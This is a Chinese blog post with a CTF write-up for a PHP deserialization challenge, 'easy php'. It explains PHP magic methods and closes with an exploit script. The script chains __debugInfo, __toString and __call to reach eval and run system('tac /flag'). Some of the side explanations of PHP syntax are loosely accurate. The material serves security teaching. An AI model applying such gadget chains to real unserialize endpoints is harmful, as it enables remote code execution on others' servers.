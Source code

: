 #  反序列号漏洞解析及赛题分析   
原创 豆豆  豆豆咨询   2025-03-10 22:55  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lWpCB8WzM56oQtibk780DBvKOfh6r7gLkSsK4cS9uS3AaYBxo5v1xOUnfUEDkJiaEKtDrodNxlLPrmE47pOfB43Q/640?wx_fmt=jpeg&from=appmsg "")  
  
  
一、反序列号漏洞赛题解析  
  
1.1 第一题  
  
第六届浙江省大学生网络与信息安全竞赛 2023年 初赛/决赛 WEB方向 Writeup  
## easy php  
  
简单反序列化  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/lWpCB8WzM56pNibpYBEvUpUqljRm6cLAPQmw1Oe0P2bwibicccpUL64xZXanPaU1qxcpOGDzIy0GrMYhIljTADcPg/640?wx_fmt=png&from=appmsg "")  
  
分析：  
  
a. __toString()  
  
    在PHP中，Exception::__toString是一个魔术方法（Magic Method），用于定义当尝试将对象作为字符串输出时的行为。具体来说，当一个异常对象（通常是Exception类或其子类的实例）被当作字符串处理时（例如在echo语句中，或者在print函数中），PHP会自动调用该对象的__toString方法。这个方法的目的是提供一个可读的字符串表示形式，通常包含异常的描述信息、错误代码、文件路径、行号等，以便于开发者快速定位和解决问题。  
  
class User {  
  
    private $name;  
  
    private $email;  
  
  
    public function __construct($name, $email) {  
  
        $this->name = $name;  
  
        $this->email = $email;  
  
    }  
  
  
    public function __toString() {  
  
        return "User: {$this->name}, Email: {$this->email}";  
  
    }  
  
}  
  
  
$user = new User("Alice", "alice@example.com");  
  
echo $user; // 输出 "User: Alice, Email: alice@example.com"  
  
  
__toString() 是 PHP 提供的一个魔术方法，用于定义对象在被转换为字符串时的行为。它在某些场景下显得非常有用，因为它让开发者可以控制对象在输出、拼接、打印时显示的内容。下面是__toString() 方法的详细解析和相关内容。  
  
b. =>符号  
  
在PHP中，“=>”符号用于定义一个键值对，即将一个键和一个值关联在一起。这种键值对的集合就是关联数组，也称为“哈希表”或“字典”。通过“=>”符号，可以指定一个键和对应的值之间的关系，使得数据在数组中可以按照键值对的形式进行存储和访问。  
  
c.  
[]  
用途  
  
[]在 PHP 中用于以下用途：  
  
数组索引：获取或设置数组元素的值。  
  
数组声明：声明包含元素的数组。  
  
哈希表：声明键值对（PHP 7.4+）。  
  
范围解析：解析变量或对象的范围。  
  
可变变量名：创建包含变量名的变量。  
  
例如  
哈希表（键值对）  
  
$hashTable = ['name' => 'John Doe', 'age' => 30];  
  
echo $hashTable['name']; // 输出：John Doe  
  
  
BBB  
::  
__debuginfo  
(  
)  
->  
CCC  
::  
__toString  
(  
)  
->  
AAA  
::  
__call  
(  
)  
  
  
d.  
__debugInfo()  
  
__debugInfo(): array  
  
当通过 var_dump() 转储对象，获取应该要显示的属性的时候，该函数就会被调用。  
  
var_dump() 函数用于输出变量的相关信息。  
  
var_dump() 函数显示关于一个或多个表达式的结构信息，包括表达式的类型与值。数组将递归展开值，通过缩进显示其结构。  
  
  
e.  
tac 命令  
  
        从最后一行开始显示， tac 是 cat 的反向显示,  
按行倒置输出。  
  
f.writeup  
  
<?php  
  
highlight_file(__FILE__);  
  
class AAA{  
  
    public $cmd;  
  
    public function __call($name, $arguments){  
  
        eval($this->cmd);  
  
        return "done";  
  
    }  
  
}  
  
class BBB{  
  
    public $param1;  
  
    public function __debuginfo(){  
  
        return [  
  
            'debugInfo' => 'param1' . $this->param1  
  
        ];  
  
    }  
  
}  
  
class CCC{  
  
    public $func;  
  
    public function __toString(){  
  
        var_dump("aaa");  
  
        $this->func->aaa();  
  
    }  
  
}  
  
$a=new BBB();  
  
$a->param1=new CCC();  
  
$a->param1->func=new AAA();  
  
$a->param1->func->cmd='system(\'tac /flag\');';  
  
$aaa=serialize($a);  
  
echo $aaa;  
  
unserialize($aaa);  
  
?>  
  
  
  
  
参考文献  
  
https://blog.csdn.net/Jayjay___/article/details/134426070  
  
https://blog.csdn.net/qq_41643749/article/details/143732496  
  
